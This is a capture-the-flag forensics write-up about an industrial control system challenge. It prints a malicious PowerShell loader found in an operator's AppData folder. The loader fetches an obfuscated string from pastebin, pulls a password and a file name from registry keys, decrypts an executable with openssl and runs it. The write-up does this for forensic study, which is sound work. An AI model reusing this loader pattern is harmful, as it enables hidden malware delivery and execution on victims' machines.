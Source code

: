 This challenge deals with an **Industrial Control System** which is based on the [DNP3](https://en.wikipedia.org/wiki/DNP3) protocol which is mainly used by electrical utilities and water services. We are given folders containing a Windows home directory of the human machine interface operator, known as `operator` and its registry keys and associated values in a JSON file:

```bash
$ tree -d
.
├── operator
[...]
│   ├── AppData
│   │   └── Local
│   │       ├── ConnectedDevicesPlatform
│   │       │   └── L.operator
│   │       ├── PeerDistRepub
│   │       ├── PlaceholderTileLogoFolder
│   │       ├── Publishers
│   │       │   └── 8wekyb3d8bbwe
│   │       │       ├── Fonts
│   │       │       ├── Licenses
│   │       │       ├── mcg
│   │       │       ├── Microsoft.WindowsAlarms
│   │       │       └── SettingsContainer
│   │       ├── Temp
│   │       │   ├── EOTW
│   │       │   ├── Low
│   │       │   └── mozilla-temp-files
│   │       └── VirtualStore
[...]
└── Registry
```

As far as we know, the AppData folder often contains files that can be relevant, thus, we focused on it and found two digital forensics artefacts that seemed weird: 
- A PowerShell script named `wcr_flail.ps1`.
- A `151.txt` file, which is actually an *openssl* encrypted file.

#### Suspicious files understanding 

Once we discovered a PowerShell script, I thought about hidden information in registry hives as I read an article about it this technique recently regarding malware analysis. Here is the script's content:

```bash
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");
$SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP));

$E=(Get-ItemProperty -Path $SLPH -Name Blast)."Blast";

$TWR =  "!M[[pcU09%d^kV&l#9*0XFd]cVG93<".Replace("!","SEt").Replace("@","q").Replace("#","jcm").Replace("<","ZXI=").Replace("%","GVF").Replace("^","BU").Replace("&","cTW").Replace("*","zb2Z").Replace("[","T").Replace("]","iZW1").Replace("{","Fdi");
$BRN = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($TWR));

$D= (Get-ItemProperty -Path $BRN -Name Off)."Off";

openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "c:\1\fate.exe";
C:\1\fate.exe;
```
```bash
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");
SEtMTTpcU09GVFdBUkVcTWljcm9zb2Z0XFdpbmRvd3NcVGFibGV0UENcQmVsbA==
```